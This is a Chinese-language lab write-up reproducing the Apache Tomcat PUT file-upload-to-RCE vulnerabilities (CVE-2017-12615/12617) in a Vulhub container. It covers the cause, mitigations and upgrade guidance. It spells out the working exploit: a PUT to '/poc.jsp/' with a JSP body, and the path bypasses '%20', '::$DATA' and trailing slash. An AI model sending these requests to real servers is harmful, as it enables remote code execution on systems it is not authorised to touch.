




# Tomcat 通过PUT方法实现任意文件写入(CVE-2017-12615、CVE-2017-12617)

## 1. 漏洞概述

Apache Tomcat 在特定配置下，如果 DefaultServlet 的 `readonly` 参数被设置为 `false`，服务端会允许通过 HTTP PUT 方法向 Web 目录写入文件。攻击者可以构造特殊的文件名，使 Tomcat 在前置校验阶段未按 JSP 处理，但在底层文件系统落盘后形成可被 JSP 引擎解析的 `.jsp` 文件，最终造成远程代码执行。

官方对 CVE-2017-12615 的描述是：Tomcat 7.0.0 到 7.0.79 在 Windows 环境下，若启用了 HTTP PUT，例如将 DefaultServlet 的 `readonly` 初始化参数设置为 `false`，攻击者可通过特殊构造请求上传 JSP 文件，随后访问该 JSP 触发服务端代码执行。

需要注意的是，后续公开的 `/xxx.jsp/` 形式属于对 CVE-2017-12615 补丁思路的绕过，官方后来编号为 CVE-2017-12617，影响范围不再局限于 Windows，也覆盖 Tomcat 8.5.x、8.0.x、9.0.x 的部分版本。


## 2. 基本信息

| 项目   | 内容                                                                                                                 |
| ---- | ------------------------------------------------------------------------------------------------------------------ |
| 漏洞名称 | Tomcat PUT 方法任意文件写入 / JSP 上传导致代码执行                                                                                 |
| 漏洞编号 | CVE-2017-12615；补丁绕过关联 CVE-2017-12617                                                                               |
| 漏洞类型 | 任意文件写入、文件上传、远程代码执行                                                                                                 |
| 影响组件 | Apache Tomcat DefaultServlet                                                                                       |
| 触发条件 | 开启 HTTP PUT，且 `readonly=false`                                                                                     |
| 影响版本 | CVE-2017-12615：Tomcat 7.0.0–7.0.79；CVE-2017-12617：Tomcat 7.0.0–7.0.81、8.5.0–8.5.22、8.0.0.RC1–8.0.46、9.0.0.M1–9.0.0 |
| 漏洞危害 | 可上传 JSP 文件并被服务端执行                                                                                                  |
| 实验环境 | Vulhub `tomcat/CVE-2017-12615`，Tomcat 8.5.19                                                                       |
| 风险等级 | 高危 / Important                                                                                                     |


## 3. 复现环境

### 3.1 环境组件

| 组件     | 版本 / 说明                         |
| ------ | ------------------------------- |
| 操作系统   | Windows + WSL2 / Linux 均可       |
| 靶场环境   | Vulhub                          |
| 容器工具   | Docker Desktop + Docker Compose |
| Web 服务 | Apache Tomcat 8.5.19            |
| 访问端口   | `8080`                          |

### 3.2 启动环境

```bash
cd ~/labs/vulhub/tomcat/CVE-2017-12615

docker compose build
docker compose up -d
```

查看容器状态：

```
docker compose ps
```

浏览器访问：

```
http://127.0.0.1:8080
```

若能看到 Tomcat 示例页面，说明环境启动成功。




## 4. 漏洞前提验证

### 4.1 检查HTTP方法

可以使用 `OPTIONS` 请求确认服务端是否允许 PUT：



可以看到允许GET、POST或者HEAD


## 5. 漏洞复现过程

### 5.1 构造JSP测试文件

`poc.jsp`:

```
<% out.println("tomcat-put-poc-ok"); %>
```

### 5.2 通过PUT写入JSP文件

使用 `/poc.jsp/` 形式构造请求：



请求被成功上传，文件已经成功写入。

### 5.3 访问写入后的JSP文件

访问：

```
http://YOUR-IP:8080/poc.jsp
```



说明 JSP 文件已经被 Tomcat 解析执行，漏洞复现成功。

## 6. 关键请求包

### 6.1 探测PUT方法

```
OPTIONS / HTTP/1.1
Host: 127.0.0.1:8080
Connection: close
```

响应：

```
Allow: GET, HEAD, POST
```

### 6.2 写入JSP文件

```
PUT /poc.jsp/ HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/octet-stream
Connection: close

<% out.println("tomcat-put-poc-ok"); %>
```

### 6.3 访问JSP文件

```
GET /poc.jsp HTTP/1.1
Host: 127.0.0.1:8080
Connection: close
```

预期响应：

```
tomcat-put-poc-ok
```

## 7. 漏洞原理分析

Tomcat 中静态资源默认由 `DefaultServlet` 处理。默认情况下，`DefaultServlet` 的 `readonly` 参数为 `true`，此时不允许客户端通过 PUT、DELETE 等方法修改服务器资源。

当管理员将 `readonly` 设置为 `false` 后，Tomcat 会允许客户端通过 PUT 方法写入文件。如果请求路径经过 Tomcat 的前置判断时没有被识别为 JSP，但底层文件系统或路径规范化处理后实际落盘为 `.jsp` 文件，就会造成文件类型判断和实际文件结果不一致。

原始 CVE-2017-12615 主要依赖 Windows 文件系统特性，例如文件名尾部空格、NTFS ADS 等路径处理差异，使 Tomcat 没有按 JSP 文件拦截，但最终在磁盘上形成可执行 JSP 文件。官方描述中也明确提到该漏洞发生在 Windows 且启用 HTTP PUT 的场景。

后续 `/poc.jsp/` 形式的补丁绕过则利用了路径规范化差异。请求路径在前置处理阶段可能被视为非标准 JSP 路径，但在后续落盘或资源解析时，尾部 `/` 被处理掉，最终形成 `poc.jsp`，从而被 JSP 引擎解析。该绕过后来对应 CVE-2017-12617，并影响多个 Tomcat 分支版本。


## 8. 补丁 Bypass 说明

### 8.1 原始利用方式

早期利用方式主要包括：

```
/1.jsp%20 
/1.jsp::$DATA
```

其中：

- `/1.jsp%20` 利用 Windows 文件名末尾空格处理差异；
- `/1.jsp::$DATA` 利用 NTFS Alternate Data Streams；
- 这些方式主要依赖 Windows 文件系统特性。

### 8.2 Bypass 利用方式

补丁绕过方式：

```
/1.jsp/
```

该路径在不同处理阶段存在差异：

| 阶段           | 处理结果                  |
| ------------ | --------------------- |
| Tomcat 前置判断  | 可能未直接按 `.jsp` 文件处理    |
| 路径规范化 / 文件落盘 | 末尾 `/` 被处理，形成 `1.jsp` |
| 后续访问         | `/1.jsp` 被 JSP 引擎解析执行 |

路径校验结果 != 文件落盘结果 != 后续解析结果


## 9. 漏洞影响

成功利用后，攻击者可以：

- 向 Web 根目录写入任意文件；
- 上传 JSP 脚本文件；
- 通过访问 JSP 文件触发服务端代码执行；
- 进一步获取服务器权限、读取配置文件、连接内网资源；
- 在真实环境中可能导致服务器被完全接管。

一句话概括：

```
PUT可写 + JSP可解析 = 文件上传型RCE
```

## 10. 修复建议

### 10.1 关闭 PUT 写入能力

确认 `conf/web.xml` 中 DefaultServlet 的 `readonly` 保持默认值：

```
<init-param>
    <param-name>readonly</param-name>
    <param-value>true</param-value>
</init-param>
```

应将 `readonly` 设置为 `true`，或禁止接收 HTTP PUT 请求；同时 `readonly` 默认值本身就是 `true`。

### 10.2 升级 Tomcat

根据版本升级到修复版本或更高版本：

| 分支           | 建议             |
| ------------ | -------------- |
| Tomcat 7.x   | 升级到 7.0.82 或更高 |
| Tomcat 8.0.x | 升级到 8.0.47 或更高 |
| Tomcat 8.5.x | 升级到 8.5.23 或更高 |
| Tomcat 9.x   | 升级到 9.0.1 或更高  |

### 10.3 网关或中间件层限制危险方法

在 Nginx、WAF 或负载均衡层限制不必要的 HTTP 方法：

```
if ($request_method !~ ^(GET|POST|HEAD)$) {
    return 405;
}
```

生产环境中，如果业务不需要 PUT、DELETE，不应对公网开放这些方法。

### 10.4 文件上传目录禁止 JSP 解析

即使业务需要上传文件，也应保证上传目录不具备 JSP 解析能力，避免上传文件被当作服务端脚本执行。


## 11. 复现结果

本次实验在Vulhub Tomcat环境中，通过开启PUT的Tomcat服务，使用/poc.jsp/上传jsp测试文件，随后访问/poc.jsp，服务端解析代码后返回执行结果，证明服务端成功解析并执行了上传的JSP文件。

漏洞复现成功。


## 12. 实验总结

本漏洞的核心是：

```
DefaultServlet 允许写入 + Tomcat 对 JSP 路径的前置判断不足 +
文件系统 / 路径规范化导致最终落盘为可解析 JSP
=
远程代码执行
```

原始 CVE-2017-12615 主要和 Windows 文件系统特性有关，而 `/xxx.jsp/` 形式的补丁绕过进一步说明，安全校验必须基于最终规范化后的真实路径进行，不能只检查原始请求路径。


## 13. 参考资料

- Apache Tomcat 官方安全公告：Tomcat 7.0.81 修复 CVE-2017-12615，Tomcat 7.0.82 修复 CVE-2017-12617。
- NVD：CVE-2017-12615 描述了 Tomcat 7.0.0–7.0.79 在 Windows 且启用 HTTP PUT 时可上传 JSP 并执行。
- JPCERT/CC：对 CVE-2017-12615、CVE-2017-12616、CVE-2017-12617 的影响范围、修复版本和缓解措施进行了整理。
- Vulhub：`tomcat/CVE-2017-12615` 环境使用 Tomcat 8.5.19，并提供 Docker Compose 启动方式。
